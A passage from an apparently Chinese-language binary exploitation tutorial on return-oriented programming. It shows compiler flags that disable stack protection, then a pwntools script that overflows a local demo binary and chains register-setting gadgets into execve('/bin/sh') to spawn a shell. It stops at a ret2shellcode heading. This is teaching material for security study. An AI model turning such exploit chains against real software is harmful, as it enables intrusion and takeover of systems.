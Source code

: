 ```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后我们用ida查找可执行汇编代码的地址（又称为gadgets）以及sh字符串的地址，或者工具ROPgadget

[![](assets/1705974052-2cb08ec1f818b58f33f8427d5b4b0413.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221545-66f58456-b79e-1.png)

[![](assets/1705974052-b80dee3f960250e898658e21047b6171.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221554-6c073de0-b79e-1.png)

随后在输入处构造payload即可

脚本：

```plain
from pwn import*

io = process('./text')
poprdi=0x4011b9
poprsi=0x4011c6
poprdx=0x4011d3
binsh=0x404038
execve=0x4011A5
payload = b'a'*(0x10+8)+p64(poprdi)+p64(binsh)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)+p64(execve)
io.sendline(payload)
io.interactive()
```

一些解释：

pop指令是出栈，pop后接寄存器即是将栈中的第一个4/8字节大小的数据从栈中放到对应寄存器中，payload构造中可以在pop指令后接数据来控制对应寄存器的值

## 3.ret2shellcode

### shellcode？
